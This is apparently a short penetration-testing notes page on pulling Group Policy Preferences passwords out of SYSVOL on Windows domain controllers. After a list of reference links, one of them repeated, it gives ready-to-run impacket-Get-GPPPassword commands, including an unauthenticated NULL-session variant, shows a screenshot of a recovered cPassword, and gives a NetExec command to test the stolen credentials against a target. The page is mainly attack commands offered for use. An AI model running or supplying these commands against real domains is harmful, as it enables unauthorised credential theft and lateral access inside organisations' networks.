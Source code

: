 ```yaml
---
description: Finding Passwords in SYSVOL & Exploiting Group Policy Preferences
---
```


# Group Policy Preferences

There is already bunch of article that discuss about this topic. Some of them are:

* [https://adsecurity.org/?p=2288](https://adsecurity.org/?p=2288)
* [https://podalirius.net/en/articles/exploiting-windows-group-policy-preferences/](https://podalirius.net/en/articles/exploiting-windows-group-policy-preferences/)
* [https://podalirius.net/en/articles/exploiting-windows-group-policy-preferences/](https://podalirius.net/en/articles/exploiting-windows-group-policy-preferences/)

The quickest way to hunting credentials from GPP is using **impacket-Get-GPPPassword**.

```bash
# with a NULL session
impacket-Get-GPPPassword -no-pass 'DOMAIN_CONTROLLER'
# with cleartext credentials
impacket-Get-GPPPassword 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgr7NnRX2_ebMwQMG0YN77lW_mHkWruGhf6y_tuFVhpNnoterUZVGDdaGb_6684gvzDYJSlmzp_TwiMam_Uf9xAr8grRLcHyA4cfDevSBybUX9PyXc7_0kE6Fk_eImkIt-z04qd8zsEaw4BxxAuag-ZpekA7lcBTHMpuwYx-5RjItqoYnu46Cr37uSgfxU/s1008/loot%20gpp%20password.png" alt=""><figcaption><p>cPassword</p></figcaption></figure>

And then, you can verify the credentials using NetExec or Evil-WinRM.

{% code overflow="wrap" %}
```bash
netexec smb TARGET -u 'username' -p 'password'
```
{% endcode %}
